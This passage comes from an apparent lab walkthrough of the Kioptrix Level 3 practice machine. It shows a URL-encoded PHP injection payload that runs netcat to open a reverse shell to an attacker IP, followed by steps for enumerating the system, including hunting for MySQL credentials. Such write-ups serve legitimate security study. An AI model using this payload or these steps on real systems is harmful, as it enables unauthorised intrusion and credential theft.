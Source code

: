 Next we append our encoded payload to the url after page=index.

<http://kioptrix3.com/index.php?page=index%27%29%3B%24%7Bsystem%28%27nc+-e+%2Fbin%2Fsh+192.168.20.144+443%27%29%7D%3B%23>

After starting netcat listener on port 443 the shell is obtained, and the shell
is upgraded to TTY shell via python:

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%203/Images/netcat.png?raw=true)

Privilege Escalation
--------------------

Enumerating operating system version and kernel version

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%203/Images/enumerating%20operating.png?raw=true)

Enumerating users present on the system:

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%203/Images/Enumerating%20Users%20present.png?raw=true)

Enumerating web server directory for MySQL credentials:

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%203/Images/enumerating%20web%20server%20MYSQL.png?raw=true)
